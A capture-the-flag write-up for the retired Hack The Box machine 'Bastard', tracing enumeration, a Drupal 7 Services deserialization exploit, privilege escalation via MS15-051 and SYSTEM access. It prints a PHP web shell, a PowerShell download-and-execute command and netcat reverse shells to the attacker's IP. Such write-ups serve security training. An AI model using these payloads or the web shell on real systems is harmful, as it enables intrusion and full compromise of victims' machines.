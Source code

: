 # Bastard

This is the write-up for the box Bastard that got retired at the 16th September 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.9    bastard.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/bastard.nmap 10.10.10.9
```

```markdown
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

As the web server is IIS version 7.5 the OS of the box is most likely Windows Sever 2008 R2 server.

On the web page we see a _Drupal_ installation.
One of the default files of Drupal is the _/CHANGELOG.txt_ where we can find out which version this is. The version is 7.54 which was released on  February 1st 2017.

We can look for exploits for this:
```markdown
searchsploit drupal 7
```

The exploit we want to use is called _"Drupal 7.x Module Services - Remote Code Execution"_ which is a **PHP serialization** vulnerability.
We will change some lines in the code to get command execution and file upload and set the variables correctly:
```php
# (...)
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$phpCode = <<<'EOD'
<?php
if (isset($_REQUEST['upload'])) {
        file_put_contents($_REQUEST['upload'], file_get_contents("http://10.10.14.23:8000/" . $_REQUEST['upload']));
};
if (isset($_REQUEST['exec'])) {
        echo "<pre>" . shell_exec($_REQUEST['exec']) . "</pre>";
};
?>
EOD;

$file = [
    'filename' => 'exploit.php',
    'data' => $phpCode
];
# (...)
```

Run the exploit:
```markdown
php5 drupal_exploit.php
```
```markdown
# Output
#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9//exploit.php
```

Now when we browse to the this page we can test if we have command execution:
```markdown
http://10.10.10.9/exploit.php?exec=whoami
```

It outputs that we are _NT Authority\iusr_.

Now that we either have command execution with this method or we can use the token in the file _session.json_ and replace our cookies with these values and we are logged in as Admin:

![Admin page](https://kyuu-ji.github.io/htb-write-up/bastard/bastard_adminpage.png)

### Command Execution on HTTP

We should can run any enumeration script on this box to get an attack surface. I will run _PowerUP.ps1_ from the **Powersploit Framework** first.

Download the file from your local machine and run it:
```markdown
.../exploit.php?exec=echo IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:8000/PowerUp.ps1') | powershell -noprofile -
```

Unfortunately there is no interesting information in this output so lets run another enumeration script. I will run [Sherlock](https://github.com/rasta-mouse/Sherlock) now and get some suggestions for vulnerabilities to exploit.

We want to upload _Netcat for Windows_ on this box and execute it to get a reverse shell:
```markdown
/exploit.php?upload=nc64.exe&exec=nc64.exe -e cmd 10.10.14.23 9001
```

After running this our listener on port 9001 starts and we get a reverse shell.

## Privilege Escalation

The enumeration script suggested us some exploits we can use and I will use **MS15-051 - Win32k LPE vulnerability** also known as _CVE-2015-1701_.
To use this exploit we copy the [Proof-of-Concept script from GitHub](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051) to our local machine and upload and execute it on the box.
```markdown
/exploit.php?upload=ms15-051x64.exe&exec=ms15-051x64.exe whoami
```

This outputs that we are _NT Authority\SYSTEM_ and thus the exploit works and we can start a shell with this.
```markdown
/exploit.php?upload=ms15-051x64.exe&exec=ms15-051x64.exe "nc64.exe -e cmd 10.10.14.23 9002"
```

After running this our listener on port 9002 starts and we get a reverse shell with the user _NT Authority\SYSTEM_ and the box is done!
